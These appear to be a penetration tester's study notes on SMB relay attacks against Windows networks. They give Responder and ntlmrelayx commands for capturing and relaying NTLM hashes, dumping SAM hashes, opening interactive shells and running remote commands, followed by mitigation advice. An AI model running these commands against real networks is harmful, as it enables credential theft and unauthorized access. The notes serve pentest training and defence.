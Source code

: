 What is SMB Relay?

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

Requirements:

1) SMB signing must be disabled or not enforced on the target 
2) Relayed user credentials must be admin on machine for any real value.

How to SMB relay: 

1) Identify hosts without SMB Signing

```bash
nmap --script=smb2-security-mode.nse -p445 <IP_address> -Pn
```

We can use -Pn to try probing it if we don't find a host without SMB signing on it

![[Pasted image 20240827114321.png]]

2) Edit  Responder config file:

```bash
sudo mousepad /etc/responder/Responder.conf
```

![[Pasted image 20240827114539.png]]

We need to turn SMB and HTTP off because we need to make sure that the hashes are not being stored, they're instead getting relayed.

3) Run Responder:

```bash
sudo responder -I eth0 -dwPv
```

4) Set up your relay:

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

-tf stands for target file.

![[Pasted image 20240827114802.png]]

5) An event occurs:

![[Pasted image 20240827115046.png]]

Go to the active Directory and point to the attacker machine.

6) We won!

![[Pasted image 20240827115115.png]]

It dumps out the SAM hashes here. We can then crack those hashes to gain access to the system.

7) Other Wins:

```bash
sudo ntlmrelayx.py -f targets.txt -smb2support -i
```

We can also put an -i at the end so that we can get an interactive shell instead of dumping the SAM hashes.

![[Pasted image 20240827115337.png]]

```bash
sudo ntlmrelayx.py -f targets.txt -smb2support -c "whoami"
```

We can also run commands using -c which is also really cool.

![[Pasted image 20240827115508.png]]

Mitigation Strategies:

1) Enable SMB Signing on all devices:
	1) Pro: Completely stops the attack.
	2) Con: Can cause performance issues with file copies.
2) Disable NTLM authentication on network:
	1) Pro: Completely stops the attack.
	2) Con: If kerberos stops working, Windows defaults back to NTLM.
3) Account tiering:
	1) Pro: Limits domain admins to specific tasks (e.g: only log onto servers with need for DA).
	2) Con: Enforcing the policy may be difficult.
4) Local admin restriction:
	1) Pro: Can prevent a lot of lateral movement.
	2) Con: Potential increase in the amount of service desk tickets.